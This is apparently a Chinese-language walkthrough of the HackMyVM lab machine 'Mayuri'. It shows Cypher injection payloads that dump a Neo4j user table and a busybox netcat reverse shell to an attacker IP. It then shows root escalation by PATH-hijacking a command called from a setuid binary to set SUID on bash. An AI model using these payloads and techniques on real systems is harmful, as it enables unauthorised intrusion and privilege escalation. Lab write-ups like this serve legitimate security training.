



端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HMV/mayuri] └─$ sudo nmap -p- 192.168.0.103 Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 13:07 CST Nmap scan report for 192.168.0.103 Host is up (0.00058s latency). Not shown: 65532 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 8080/tcp open http-proxy MAC Address: 4A:94:24:32:EC:CF (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.38 seconds
web渗透 开了80端口和8080端口，先访问一下80端口：
说是要输入查询编号查询什么东西，看到“查询”两个字就想到可能会有注入，那就先来个引号试一下：
果然报错了，但是报错的内容有点奇怪，有些问号，把这玩意扔给GPT问一下。
GPT说这看起来像是 Neo4j Cypher 查询语句，正常的形式可能是这样的：
1 'MATCH (n:shop) WHERE n.sid = ' + sid + ' RETURN n;'
这个报错看上去sid是直接拼接在查询语句中的，sid我们可控，因此可能存在注入。
先看看8080端口是什么：
8080端口是个登录页面，那可能就是要从80端口注入拿到账号密码，然后从8080端口进行登录。
回到80端口，学习一下cypher的基本语法，并且发现cypher的注释符号是 // ，那就可以用 “1 return n;//” 和 “1’ return n;//” 来试试是否存在注入：

可以看到，1 return n;// 可以正常返回查询sid为1的数据，说明存在数值类的注入。
根据这篇文章(https://blog.csdn.net/Che_ng/article/details/145965471) 学习了一下cypher的语法，构造出了如下的payload：
1 1 return 1 as n union call db.labels() yield label as n return n;//
这个payload可以查询存在的所有标签，查看结果：
发现有 User ，那就 union 继续拼接查询User的内容，payload如下：
1 1 return n union match(n:User) return n;//

看到 username 为 Okabe , password 为 OOOkkkaaabbbeee ，拿去8080端口登录：

进去之后有个终端，尝试 ls :
是个可以执行命令的终端，那就进行反弹shell：
1 busybox nc 192.168.0.104 1234 -e /bin/bash
获取立足点 1 2 3 4 5 6 ┌──(kali㉿kali)-[~/HMV/mayuri] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 192.168.0.102 48486 python3 -c "import pty;pty.spawn('/bin/bash')" www-data@Mayuri:/var/www/website-b$
在home里面，有个kyoma用户：
1 2 3 4 5 6 ww-data@Mayuri:/var/www/website-b$ cd /home cd /homewww-data@Mayuri:/home$ ls ls kyoma www-data@Mayuri:/home$
能够进入kyoma的家目录，不能执行 ls ，但是可以看user flag:
1 2 3 4 5 6 7 8 9 www-data@Mayuri:/home$ cd kyoma cd kyomawww-data@Mayuri:/home/kyoma$ ls ls ls : cannot open directory '.' : Permission deniedwww-data@Mayuri:/home/kyoma$ cat user.txt cat user.txtflag{1.055821%} www-data@Mayuri:/home/kyoma$
提权 在机器里面寻找一些信息，在环境变量里面发现了一个密码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 www-data@Mayuri:/home/kyoma$ env env Pass=1.129848 PWD=/home/kyoma APACHE_LOG_DIR=/var/log/apache2 LANG=C INVOCATION_ID=0e54d57f5e424abfa9aecdf373228dd1 APACHE_PID_FILE=/var/run/apache2/apache2.pid APACHE_RUN_GROUP=www-data APACHE_LOCK_DIR=/var/lock/apache2 SHLVL=2 LC_CTYPE=C.UTF-8 APACHE_RUN_DIR=/var/run/apache2 JOURNAL_STREAM=9:13641 APACHE_RUN_USER=www-data PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin _=/usr/bin/env OLDPWD=/home www-data@Mayuri:/home/kyoma$
猜测是kyoma的密码，登录：
1 2 3 4 5 6 7 8 www-data@Mayuri:/home/kyoma$ su kyoma su kyoma Password: 1.129848 kyoma@Mayuri:~$ whoami whoami kyoma kyoma@Mayuri:~$
在kyoma的家目录里面有一些文件：
1 2 3 4 kyoma@Mayuri:~$ ls ls a.out Mail TimeMachine user.txt kyoma@Mayuri:~$
有个Mail，查看内容：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 From: Okabe Rintarou <phoenix.h@futuregadgetlab.net> To: Okabe Rintarou <o.rintarou@futuregadgetlab.net> Subject: A Message to My Past Self Date: Mon, 15 Jul 2036 14:30:00 +0900 Message-ID: <f74c7678f9e61287e0719e59d9a10369@d-rine.sern.net> X-Mailer: D-RINE (Amadeus Custom Build) v2.10 X-Received-At: 2011-08-21 18:45:00 JST “看着吧，过去的我。” “世界是可以被欺骗的。” “将所有的可能性连接起来。” “欺骗世界，欺骗所有的时间轴观测者。” “这才是‘掌管未来的女神行动’。” “在那前方，有你的…” “你不是一个人。” “凤凰院凶真欺骗了世界。你也能做到。” “首先，你先需要通过时间机器拿到权限。” “El. Psy. Kongroo.”
他说 “你先需要通过时间机器拿到权限” ，我们现在是kyoba，那要拿的权限就应该是root权限了。
说的时间机器应该就是家目录里的 TimeMachine ，该文件信息如下：
1 2 3 4 5 6 7 kyoma@Mayuri:~$ file TimeMachine file TimeMachine TimeMachine: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e7dd04e54e42aa78b9d552e1822b91d8c29f7004, for GNU/Linux 3.2.0, not stripped kyoma@Mayuri:~$ ls -liah TimeMachine ls -liah TimeMachine527418 -rwsr-xr-x 1 root root 17K Aug 6 07:35 TimeMachine kyoma@Mayuri:~$
是ELF文件，有suid权限，而且我们有读和执行权限，把文件拿出来，放到IDA里面查看：
其中的 execute_chronos_query 函数内容如下：
看到它用 system 函数执行了 dest 这个字符串变量，dest 里面又是包含 timedatectl | grep 'Local time' | awk -F': ' ' 这个命令，其中的 timedatectl 没有使用绝对路径，且程序里面没有初始化 PATH 环境变量，因此我们可以尝试进行命令劫持。
在家目录下创建一个 timedatectl 文件，里面包含我们想要的提权命令：
1 2 3 4 5 6 7 8 kyoma@Mayuri:~$ echo 'chmod +s /bin/bash' >timedatectl echo 'chmod +s /bin/bash' >timedatectlkyoma@Mayuri:~$ chmod +x timedatectl chmod +x timedatectlkyoma@Mayuri:~$ ls ls a.out Mail timedatectl TimeMachine user.txt kyoma@Mayuri:~$
修改 PATH :
1 2 3 4 5 6 kyoma@Mayuri:~$ export PATH=/home/kyoma:$PATH export PATH=/home/kyoma:$PATH kyoma@Mayuri:~$ echo $PATH echo $PATH /home/kyoma:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin kyoma@Mayuri:~$
这时候如果运行TimeMachine，它使用的 timedatectl 命令应该就是我们放在家目录的那一个：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 kyoma@Mayuri:~$ ./TimeMachine ./TimeMachine ================================================== = 世界线观测仪 v3.14 - AMADEUS 系统 = = 版权所有 2011, 未来道具研究所 = ================================================== [系统] 初始化... 正在访问时序子系统。 [自检] 验证命运石之眼校准... 正常。 [自检] SERN 网络接口... 已激活。监视中... [警告] 时间跳跃机使用前需要充能。 电话微波炉(暂定)充能中 [###################################] 100% (距离充能完毕: 0ms) [成功] 充能完毕。系统准备就绪。 [成功] 正在向 IBN 5100 传输时序查询... -------------------------------------------------- -------------------------------------------------- 操作完成。这一切都是命运石之门的选择。 El. Psy. Kongroo. kyoma@Mayuri:~$
查看 /bin/bash 的权限：
1 2 3 4 kyoma@Mayuri:~$ ls -liah /bin/bash ls -liah /bin/bash263242 -rwsr-sr-x 1 root root 1.2M Apr 18 2019 /bin/bash kyoma@Mayuri:~$
可以看到已经有了s权限，用 /bin/bash -p 提权：
1 2 3 4 5 6 kyoma@Mayuri:~$ /bin/bash -p /bin/bash -p bash-5.0# whoami whoami root bash-5.0#
root flag：
1 2 3 4 bash-5.0# cat /root/root.txt cat /root/root.txtflag{1.123581%} bash-5.0#